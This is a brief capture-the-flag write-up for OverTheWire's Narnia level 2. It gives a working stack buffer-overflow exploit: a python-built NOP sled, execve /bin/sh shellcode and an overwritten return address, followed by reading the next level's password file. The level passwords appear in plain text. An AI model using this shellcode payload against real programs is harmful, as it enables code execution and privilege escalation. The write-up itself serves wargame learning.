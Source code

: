 ### Narnia Level 2

[narnia2](http://overthewire.org/wargames/narnia/narnia2.html)

**Username**: *narnia2*

**Password**: *nairiepecu*

### Solution

* http://shell-storm.org/shellcode/files/shellcode-811.php

```bash
./narnia2 $(python -c 'print "\x90"*112 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x70\xd8\xff\xff"')
cat /etc/narnia_pass/narnia3
```

#### Credentials for Level 3

**Username**: *narnia3*

**Password**: *vaequeezee*
